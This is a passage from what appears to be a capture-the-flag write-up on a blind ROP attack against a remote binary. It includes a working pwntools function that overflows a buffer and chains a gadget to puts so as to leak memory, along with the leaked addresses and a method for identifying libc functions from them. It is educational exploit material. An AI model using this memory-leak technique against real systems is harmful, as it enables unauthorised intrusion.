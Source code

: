 The output I got is -

```bash
[+] Found Possible GOT at: 0x600000
[+] Found Possible GOT at: 0x600288
[+] Found Possible GOT at: 0x600ef0
[+] Found Possible GOT at: 0x601010
[+] Found Possible GOT at: 0x601018
[+] Found Possible GOT at: 0x601020
[+] Found Possible GOT at: 0x601028
[+] Found Possible GOT at: 0x601030
[+] Found Possible GOT at: 0x601038
[+] Found Possible GOT at: 0x601070
[+] Found Possible GOT at: 0x601080
```

I then scaned a `QWORD` at these address using this function - 

```py
def scanQWORD(l):
    for x in l:
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
        payload += pwn.p64(x)
        payload += pwn.p64(CALL_PUTS)
        io.recvuntil(b"?\n")
        io.send(payload)
        mssg = io.recvall().strip()
        mssg = mssg[0:8]
        mssg = pwn.unpack(mssg, 'all')
        pwn.log.success("QWORD @ Memory -" + hex(x) + ": " + hex(mssg))
        io.close()
```

Here is the output I got - 

```bash
[+] QWORD @ Memory -0x600000: 0x10102464c457f
[+] QWORD @ Memory -0x600288: 0x6afe6e7f0281de17
[+] QWORD @ Memory -0x600ef0: 0x7fab15e99140
[+] QWORD @ Memory -0x601010: 0x7fddce633e40
[+] QWORD @ Memory -0x601018: 0x7f1ed97a46a0
[+] QWORD @ Memory -0x601020: 0x7f2bc6a7f6c0
[+] QWORD @ Memory -0x601028: 0x7f1a2e6f9350
[+] QWORD @ Memory -0x601030: 0x7f5146e88750
[+] QWORD @ Memory -0x601038: 0x7ff3b3dbd5f0
[+] QWORD @ Memory -0x601070: 0x7f3e1882f8e0
[+] QWORD @ Memory -0x601080: 0x7f8d592fb540
```

We know that the `last 3 nibbles` of these values will remain `constant` throughout multiple connections so we can crosscheck this nibbles with the last 3 nibbles of some functions in the `libc` file provided. We see that the function `puts` ends with `0x6a0` meaning address of `puts` in memory is `0x601018`. We add this to our global variables.
